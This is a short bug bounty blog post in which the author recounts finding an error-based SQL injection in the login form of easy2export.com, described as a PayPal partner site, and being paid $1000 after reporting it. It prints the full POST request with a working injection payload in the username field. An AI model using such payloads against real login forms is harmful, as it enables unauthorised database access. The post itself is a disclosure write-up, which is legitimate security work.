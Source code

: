 ```yaml
---
layout: post
title: "sqli in paypal partner"
date: 2014-11-22T07:14:07-05:00
description: "error based sql injection in easy2export.com"
---
```


It’s been a year after my website ‘jeroldcamacho.com’ was gone because I forgot to renew my domain and I don’t even have a backup of my website nor my blog posts. As the title says “how i got my 1000$ from paypal partner site.”. So, here it goes.

**Easy2Export** is one of paypal partner website, yeah it is! [[..]](http://www.ecommercebytes.com/cab/abn/y13/m12/i24/s04)

<center>
<img src="https://jmrncz.files.wordpress.com/2016/05/yeah-m.jpg">
</center>
<br>
At first, i tried to break the login form. After a few minutes of testing, I foundout that the login form is vulnerable to POST SQL Injection.

```
http://easy2export.com/index.php/site/login

POST /index.php/site/login HTTP/1.1
Host: easy2export.com
…
LoginForm[username]=’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+&LoginForm[password]=’&LoginForm[accounttype]=sub&LoginForm[rememberMe]=0&yt0=
```
<br>
<center>
<img src="https://jmrncz.files.wordpress.com/2016/05/easy2export-sql-injection1.png">
</center>
<br>
I immediately reported this to PayPal and they fixed the vulnerability issue quickly. **[10/30/2014 09:21:53]**
<br>
<center>
<img src="https://jmrncz.files.wordpress.com/2016/05/inhale-m.jpg">
</center>
<br>
In their bug bounty program guidelines, it is noted that sql injection in paypal partner sites will receive 1000$.
.
.
And they checked the eligibility of my report so they then send me the reward amounting to 1000$. **[11/22/14 6:23:35]**

<img src="https://jmrncz.files.wordpress.com/2016/05/paypal-bounty.png">

Thanks for reading! stay tuned for more blog posts.

